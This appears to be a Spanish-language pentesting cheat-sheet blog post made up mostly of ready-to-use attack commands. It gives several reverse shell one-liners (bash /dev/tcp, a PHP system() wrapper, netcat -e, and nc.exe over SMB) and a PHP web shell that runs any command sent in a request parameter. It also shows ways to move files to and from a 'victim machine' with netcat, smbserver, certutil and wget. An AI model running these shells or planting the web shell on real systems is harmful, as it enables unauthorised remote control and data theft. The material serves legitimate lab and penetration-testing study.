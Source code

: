 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```
<br><br>
## Reducir el peso de un archivo.
Con el comando `` du -hc `` puedes ver el peso que tiene un archivo. y con `` upx `` reduces el peso para que cuando lo quieras transferir de un equipo a otro sea más rapido.
```
du -hc <archivo>

upx <archivo>
```
<br><br>
## Tranferir archivos o binarios. 
Tranferir un archivo o binario con netcat.
```
nc -nlvp 443 > <file>         # Desde tu equipo.
# <file> Es el nombre con el cual se va a guardar en tu equipo.

nc <ip-addres> 443 < <file>   # Desde la máquina víctima.
# <file> Es el nombre del archivo que vas a transferir.
```

Transferir un archivo a una máquina Windows haciendo uso de smbserver.
```
impacket-smbserver smbFolder $(pwd) -smb2support  # Desde tu equipo.

copy <archivo> \\<ip-address>\smbFolder\<archivo> # Desde la máquina víctima.
```

Transferir un archivo usando python para montar un servicio http por el puerto 80 y con el binario certutil.exe realizar la transferencia.
```
python3 -m http.server 80          # Desde tu equipo.

certutil.exe -f -urlcache -split http://<ip-address>/<archivo_a_tranferir> <nombre_como_se_guardara>                              # Desde la máquina víctima
```
Transferir un archivo con python y wget.
```
python3 -m http.server 80           # Desde tu equipo.

wget http://<ip-address>/<archivo>  # Desde la máquina víctima.
```
<b>md5sum</b><br>
Comando que te ayuda a verificar que la integridad de un archivo no se haya modificado.
```
md5sum <file_name>
```






